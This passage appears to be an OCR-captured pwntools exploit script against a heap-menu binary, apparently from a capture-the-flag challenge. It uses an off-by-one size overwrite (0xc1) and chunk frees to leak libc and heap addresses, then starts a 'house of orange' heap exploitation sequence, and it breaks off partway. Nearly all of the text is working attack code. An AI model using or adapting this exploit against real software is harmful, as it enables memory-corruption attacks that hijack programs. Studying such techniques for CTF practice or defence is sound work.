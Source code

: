 ```python
    io.recvuntil(b'> ')

def edit(index, data):
    io.sendline(b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def read(index):
    io.sendline(b'4')
    io.sendlineafter(b'index: ', str(index).encode())
    output = io.recv(0x58)
    io.recvuntil(b'> ')
    return output

def quit():
    io.sendline(b'5')
    
io = start()
io.recvuntil(b'> ')

chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()
chunk_E = malloc()

# ===================================================================================================
# Leak libc
edit(chunk_A, p8(0)*0x58 + p8(0xc1))
free(chunk_B)

chunk_B2 = malloc()

unsortedbin_data = read(chunk_C)
unsortedbin = u64(unsortedbin_data[0:8])
libc.address = unsortedbin - 0x399b78

info("unsortedbin: " + hex(unsortedbin))
info("libc base: " + hex(libc.address))


# ===================================================================================================
# Leak heap

chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

fastbin_data = read(chunk_C)
heap = u64(fastbin_data[0:8])
info("heap: " + hex(heap))

# ===================================================================================================
# house of oragne
chunk_C3 = malloc()
chunk_A2 = malloc()

edit(chunk_A2, p8(0)*0x58 + p8(0xc1))
free(chunk_B2)
```